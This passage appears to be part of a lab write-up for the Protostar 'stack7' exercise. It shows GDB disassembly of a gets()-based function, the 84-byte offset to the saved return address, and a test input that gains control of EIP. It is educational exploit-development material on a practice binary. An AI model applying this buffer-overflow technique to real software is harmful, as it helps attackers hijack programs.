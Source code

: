 We take a look at the disassembly of `getpath()`.

```
(gdb) disass getpath
Dump of assembler code for function getpath:
0x080484c4 <getpath+0>: push   %ebp
0x080484c5 <getpath+1>: mov    %esp,%ebp
0x080484c7 <getpath+3>: sub    $0x68,%esp
0x080484ca <getpath+6>: mov    $0x8048620,%eax
0x080484cf <getpath+11>:        mov    %eax,(%esp)
0x080484d2 <getpath+14>:        call   0x80483e4 <printf@plt>
0x080484d7 <getpath+19>:        mov    0x8049780,%eax
0x080484dc <getpath+24>:        mov    %eax,(%esp)
0x080484df <getpath+27>:        call   0x80483d4 <fflush@plt>
0x080484e4 <getpath+32>:        lea    -0x4c(%ebp),%eax
0x080484e7 <getpath+35>:        mov    %eax,(%esp)
0x080484ea <getpath+38>:        call   0x80483a4 <gets@plt>
0x080484ef <getpath+43>:        mov    0x4(%ebp),%eax
0x080484f2 <getpath+46>:        mov    %eax,-0xc(%ebp)
0x080484f5 <getpath+49>:        mov    -0xc(%ebp),%eax
0x080484f8 <getpath+52>:        and    $0xb0000000,%eax
0x080484fd <getpath+57>:        cmp    $0xb0000000,%eax
0x08048502 <getpath+62>:        jne    0x8048524 <getpath+96>
0x08048504 <getpath+64>:        mov    $0x8048634,%eax
0x08048509 <getpath+69>:        mov    -0xc(%ebp),%edx
0x0804850c <getpath+72>:        mov    %edx,0x4(%esp)
0x08048510 <getpath+76>:        mov    %eax,(%esp)
0x08048513 <getpath+79>:        call   0x80483e4 <printf@plt>
0x08048518 <getpath+84>:        movl   $0x1,(%esp)
0x0804851f <getpath+91>:        call   0x80483c4 <_exit@plt>
0x08048524 <getpath+96>:        mov    $0x8048640,%eax
0x08048529 <getpath+101>:       lea    -0x4c(%ebp),%edx
0x0804852c <getpath+104>:       mov    %edx,0x4(%esp)
0x08048530 <getpath+108>:       mov    %eax,(%esp)
0x08048533 <getpath+111>:       call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:       lea    -0x4c(%ebp),%eax
0x0804853b <getpath+119>:       mov    %eax,(%esp)
0x0804853e <getpath+122>:       call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:       leave
0x08048544 <getpath+128>:       ret
End of assembler dump.
```

Similar to stack 6, `buffer` starts at `-0x4c(%ebp)` and we need to write 84
bytes to overwrite `$eip`. We can confirm this in GDB.

```
(gdb) run
Starting program: /opt/protostar/bin/stack7
input path please: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAABBBB
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```
